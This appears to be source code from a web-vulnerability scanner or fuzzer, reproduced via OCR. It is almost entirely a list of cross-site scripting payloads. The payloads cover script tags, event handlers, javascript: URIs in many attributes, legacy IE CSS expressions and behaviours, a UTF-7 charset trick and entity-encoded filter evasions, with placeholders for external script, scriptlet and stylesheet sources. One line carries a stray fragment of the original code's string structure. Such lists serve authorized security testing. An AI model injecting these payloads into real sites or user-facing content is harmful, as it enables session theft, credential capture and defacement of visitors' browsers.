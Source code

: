      <script>%(payload)s</script>
      <script src=%(jscript)s></script>
      <script language='javascript' src='%(jscript)s'></script>
      <script>javascript:alert(1)</script>
      <IMG SRC="javascript:javascript:alert(1);">
      <IMG SRC=javascript:javascript:alert(1)>
      <IMG SRC=`javascript:javascript:alert(1)`>
      <SCRIPT SRC=%(jscript)s?<B>
      <FRAMESET><FRAME SRC="javascript:javascript:alert(1);"></FRAMESET>
      <BODY ONLOAD=javascript:alert(1)>
      <BODY ONLOAD=javascript:javascript:alert(1)>
      <IMG SRC="jav    ascript:javascript:alert(1);">
      <BODY onload!#$%%&()*~+-_.,:;?@[/|\]^`=javascript:alert(1)>
      <SCRIPT/SRC="%(jscript)s"></SCRIPT>
      <<SCRIPT>%(payload)s//<</SCRIPT>
      <IMG SRC="javascript:javascript:alert(1)"
      <iframe src=%(scriptlet)s <
      <INPUT TYPE="IMAGE" SRC="javascript:javascript:alert(1);">
      <IMG DYNSRC="javascript:javascript:alert(1)">
      <IMG LOWSRC="javascript:javascript:alert(1)">
      <BGSOUND SRC="javascript:javascript:alert(1);">
      <BR SIZE="&{javascript:alert(1)}">
      <LAYER SRC="%(scriptlet)s"></LAYER>
      <LINK REL="stylesheet" HREF="javascript:javascript:alert(1);">
      <STYLE>@import'%(css)s';</STYLE>
      <META HTTP-EQUIV="Link" Content="<%(css)s>; REL=stylesheet">
      <XSS STYLE="behavior: url(%(htc)s);">
      <STYLE>li {list-style-image: url("javascript:javascript:alert(1)");}</STYLE><UL><LI>XSS
      <META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:javascript:alert(1);">
      <META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:javascript:alert(1);">
      <IFRAME SRC="javascript:javascript:alert(1);"></IFRAME>
      <TABLE BACKGROUND="javascript:javascript:alert(1)">
      <TABLE><TD BACKGROUND="javascript:javascript:alert(1)">
      <DIV STYLE="background-image: url(javascript:javascript:alert(1))">
      <DIV STYLE="width:expression(javascript:alert(1));">
      <IMG STYLE="xss:expr/*XSS*/ession(javascript:alert(1))">
      <XSS STYLE="xss:expression(javascript:alert(1))">
      <STYLE TYPE="text/javascript">javascript:alert(1);</STYLE>
      <STYLE>.XSS{background-image:url("javascript:javascript:alert(1)");}</STYLE><A CLASS=XSS></A>
      <STYLE type="text/css">BODY{background:url("javascript:javascript:alert(1)")}</STYLE>
      <!--[if gte IE 4]><SCRIPT>javascript:alert(1);</SCRIPT><![endif]-->
      <BASE HREF="javascript:javascript:alert(1);//">
      <OBJECT TYPE="text/x-scriptlet" DATA="%(scriptlet)s"></OBJECT>
      <OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:javascript:alert(1)></OBJECT>
      <HTML xmlns:xss><?import namespace="xss" implementation="%(htc)s"><xss:xss>XSS</xss:xss></HTML>""","XML namespace."),("""<XML ID="xss"><I><B>&lt;IMG SRC="javas<!-- -->cript:javascript:alert(1)"&gt;</B></I></XML><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
      <HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;javascript:alert(1)&lt;/SCRIPT&gt;"></BODY></HTML>
      <SCRIPT SRC="%(jpg)s"></SCRIPT>
      <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-%(payload)s;+ADw-/SCRIPT+AD4-
      <form id="test" /><button form="test" formaction="javascript:javascript:alert(1)">X
      <body onscroll=javascript:alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
      <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>